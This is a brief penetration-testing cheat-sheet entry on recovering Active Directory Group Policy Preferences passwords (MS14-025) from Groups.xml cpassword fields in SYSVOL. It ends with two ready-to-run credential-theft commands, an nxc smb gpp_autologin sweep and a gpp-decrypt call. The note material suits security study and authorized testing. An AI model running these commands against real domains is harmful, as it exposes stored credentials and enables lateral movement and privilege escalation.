 ```yaml
---
tags:
  - Authenticated
  - Lateral-Movement
  - Privilege-Escalation
  - SMB
  - Unauthenticated
  - AD
---
```

When a new GPP is created, an .xml file is created in the SYSVOL share, which is also cached locally on endpoints that the Group Policy applies to.
## Identify
---
https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1
This was patched in 2014 MS14-025 Vulnerability in GPP could allow elevation of privilege, to prevent administrators from setting passwords using GPP. The patch does not remove existing Groups.xml files with passwords from SYSVOL. If you delete the GPP policy instead of unlinking it from the OU, the cached copy on the local computer remains.
Groups.xml

cpassword field
## Exploit
---
```Bash
nxc smb 172.16.5.5 -u 'user' -p 'pass' -M gpp_autologin
```
```Bash
gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE
```